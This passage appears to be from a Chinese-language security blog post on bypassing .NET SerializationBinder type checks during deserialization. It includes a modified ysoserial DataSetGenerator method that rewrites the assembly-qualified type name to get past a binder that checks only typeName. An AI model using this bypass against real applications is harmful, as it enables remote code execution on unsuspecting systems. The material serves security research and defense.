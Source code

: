 该对象存储`Type`和`assemblyName`程序集名

如果能从缓存中获取到则执行`typeNAssembly.type;`返回 Type 对象

如果获取为空，则走到上面的 if 判断，调用`ResolveSimpleAssemblyName(new AssemblyName(assemblyName));`获取`assemblyName`指定的`Assembly`对象，然后调用`GetSimplyNamedTypeFromAssembly(assembly, typeName, ref type);`获取对应的 Type 对象。

结合以上代码知道，在`BindToType`方法只检测`typeName`的时候可以通过在系列化修改`assemblyName`值的方式进行绕过。

修改`ysoserial\Generators\DataSetGenerator.cs`

```bash
public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            // info.SetType(typeof(System.Data.DataSet));

            Type type = typeof(System.Data.DataSet);
            info.FullTypeName = type.AssemblyQualifiedName;
            info.AddValue("DataSet.RemotingFormat", System.Data.SerializationFormat.Binary);
            info.AddValue("DataSet.DataSetName", "");
            info.AddValue("DataSet.Namespace", "");
            info.AddValue("DataSet.Prefix", "");
            info.AddValue("DataSet.CaseSensitive", false);
            info.AddValue("DataSet.LocaleLCID", 0x409);
            info.AddValue("DataSet.EnforceConstraints", false);
            info.AddValue("DataSet.ExtendedProperties", (System.Data.PropertyCollection)null);
            info.AddValue("DataSet.Tables.Count", 1);
            info.AddValue("DataSet.Tables_0", _fakeTable);
        }
```

[![](assets/1701606711-b6fee82c744f49fbeb23d7ce25f00f4d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108201347-45057560-7e30-1.png)
